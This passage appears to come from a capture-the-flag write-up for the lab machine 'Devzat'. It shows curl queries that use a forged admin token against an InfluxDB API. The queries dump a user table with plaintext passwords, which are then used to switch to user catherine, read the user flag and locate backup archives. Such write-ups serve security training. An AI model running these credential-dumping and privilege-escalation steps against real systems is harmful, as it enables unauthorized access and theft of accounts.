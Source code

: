 Using the devzat database, we will then use the ```Show Measurements``` query to find out the tables on this database, and from the output we know that there is only a ```user``` table in the database.

```
┌──(kali㉿kali)-[~]
└─$ curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjc2MzQ2MjY3fQ.NPhb55F0tpsp5X5vcN_IkAAGDfNzV5BA6M4AThhxz6A" "http://localhost:8086/query?db=devzat&q=show+measurements"
{"results":[{"statement_id":0,"series":[{"name":"measurements","columns":["name"],"values":[["user"]]}]}]}
```

Last but not least, we will query the user table with ```SELECT * from user;``` and we are able to obtain a password string for the user catherine.

```
──(kali㉿kali)-[~]
└─$ curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjc2MzQ2MjY3fQ.NPhb55F0tpsp5X5vcN_IkAAGDfNzV5BA6M4AThhxz6A" 'http://localhost:8086/query?db=devzat&q=SELECT+*+FROM+"user";'
{"results":[{"statement_id":0,"series":[{"name":"user","columns":["time","enabled","password","username"],"values":[["2021-06-22T20:04:16.313965493Z",false,"WillyWonka2021","wilhelm"],["2021-06-22T20:04:16.320782034Z",true,"woBeeYareedahc7Oogeephies7Aiseci","catherine"],["2021-06-22T20:04:16.996682002Z",true,"RoyalQueenBee$","charles"]]}]}]}
```

### Privilege Escalation to catherine
Using the credentials, we will escalate our privilege to catherine

```
patrick@devzat:~/pets$ su catherine
su catherine
Password: woBeeYareedahc7Oogeephies7Aiseci
```
### Obtaining user flag

```
catherine@devzat:/home/patrick/pets$ cat /home/catherine/user.txt
cat /home/catherine/user.txt
<Redacted user.txt>
```
### Finding backup file

Navigating to /var/backups, we are able to find a devzat-dev.zip, which we will extract to our local machine.

```
catherine@devzat:/var/backups$ ls
ls
apt.extended_states.0  apt.extended_states.1.gz  apt.extended_states.2.gz  devzat-dev.zip  devzat-main.zip
```

### Code analysis of devzat-dev.zip
